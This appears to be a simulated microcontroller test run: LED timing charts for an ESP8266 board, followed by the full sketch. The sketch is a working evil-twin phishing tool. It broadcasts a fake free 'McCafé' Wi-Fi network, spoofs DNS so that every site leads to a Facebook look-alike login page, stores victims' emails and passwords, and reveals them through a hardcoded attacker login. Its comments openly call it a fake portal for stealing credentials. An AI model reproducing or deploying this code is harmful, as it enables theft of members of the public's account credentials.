
A sketch run on a simulated ESP8266 (NodeMCU). Shown: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.45 s:

Timing chart, 0 to 4.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2: alternates HIGH for 0.10 s and LOW for 0.10 s, 6 changes in all, then stays HIGH, starting at once

The sketch:

Captive1.0.ino
```cpp
// Falso portal cativo utilizando microcontrolador ESP8266 para obter credenciais do Facebook.

// Includes
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuração do "AP".
#define SSID_NAME "McCafé - Grátis."   // Nome da rede do WI-FI , McCafé ótimo exemplo kkkkkkkk.
#define TITLE "McCafé"  // Nome do titulo na Pagina Fake.
#define SUBTITLE "facebook."  // Subtitulo, recomendo não trocar.
#define BODY "Faça check-in para WIFI Grátis."
#define POST_TITLE "Validating..."
#define POST_BODY "Your account is being validated. Please, wait up to 5 minutes for device connection.</br>Thank you."  // Mensagem falsa de validação.
#define PASS_TITLE "Credenciais"
#define CLEAR_TITLE "Limpo."

const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(192, 168, 1, 1); // Gateway.

String Credentials="";
unsigned long bootTime=0, lastActivity=0, lastTick=0, tickCtr=0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a=webServer.arg(argName);
  a.replace("<","&lt;");a.replace(">","&gt;");
  a.substring(0,200); return a; }

//Rodapé da Página.
String footer() { return
"<br /><br /></div<div class=q style=\"font-size: 9px; text-align: center;\"><a>&#169; Facebook.</a></div>";
}

// CSS + Cabeçalho da Página.
String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
    "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
    "div { padding: 0.5em; }"
    "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
    "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555;font-size: 19px; }"
    "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
    "nav { background: #42619f; color: #fff; display: block; font-size: 2em; font-weight: 700; padding: 1em; font-family: helvetica; }"
    "nav b { display: block; font-size: 14px; margin-bottom: 0.5em; } "
    "textarea { width: 100%; }";

  String h = "<!DOCTYPE html><html>"
    "<head><title>"+a+" :: "+t+"</title>"
    "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\">"
    "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
    "<style>"+CSS+"</style></head>"
    "<body><nav>"+SUBTITLE+"</nav><div><h1>"+t+"</h1></div><div>"

//Injeta Javascript na Página para verificar se os campos foram corretamente preenchidos.
"<script type=\"text/javascript\" language=\"javascript\">"
"function valida_form (){"
"if(document.getElementById(\"email\").value.length < 8 || document.getElementById(\"pass\").value.length < 5){"
"alert('Por favor, preencha corretamente!');"
"document.getElementById(\"email\").focus();"
"return false"
"}"
"}"
"</script>";
  return h; }

String creds() {
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {   // Página com o formulario para captura das "Credenciais".
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post onsubmit=\"return valida_form(this)\">" +
    "<b>Email or Phone:</b> <center><input type=text id=\"email\" autocomplete=email name=email></input></center>" +
    "<b>Password:</b> <center><input type=password id=\"pass\" name=password></input><input type=submit value=Login></form></center>" + footer();
}

 String posted() {
 String email=input("email");
 String password=input("password");

  //Area de captura de dados.
  //Caso seja a "Vitima" logando salva as credenciais e passa a menssagem de Validação...
  //Caso seja o "Atacante" entrando com seu login e senha, redireciona para a página com as credenciais capturadas.

   if (email == "fincao" && password == "142536") {  //Login do "Atacante", para acesso as Credenciais capturadas.
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:blue\" href=/>Voltar para Inicio</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();   }
   else {
  Credentials="<li>User: <b>" + email + "</b></br>Password: <b>" + password + "</b></li><br /><br />" + Credentials;
  return header(POST_TITLE) + POST_BODY + footer();
     }
}

String clear() {
  String email="<p></p>";
  String password="<p></p>";
  Credentials="<p></p>";
  return header(CLEAR_TITLE) + "<div><p>Lista de credenciais resetada.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINKPASS() {//Piscar 3 vezes o Led da placa quando receber uma "Dados da vitima".
  int count = 0;
  while(count < 3){
    digitalWrite(BUILTIN_LED, LOW);
    delay(100);
    digitalWrite(BUILTIN_LED, HIGH);
    delay(100);
    count = count + 1;
  }
}

void setup() {
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only HTTP)
  webServer.on("/post",[]() { webServer.send(HTTP_CODE, "text/html", posted()); BLINKPASS(); });
  webServer.on("/creds",[]() { webServer.send(HTTP_CODE, "text/html", creds()); });
  webServer.on("/clear",[]() { webServer.send(HTTP_CODE, "text/html", clear()); });
  webServer.onNotFound([]() { lastActivity=millis(); webServer.send(HTTP_CODE, "text/html", index());});
  webServer.begin();
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);
}

void loop() {
  if ((millis()-lastTick)>TICK_TIMER) {lastTick=millis();}
dnsServer.processNextRequest(); webServer.handleClient(); }
```
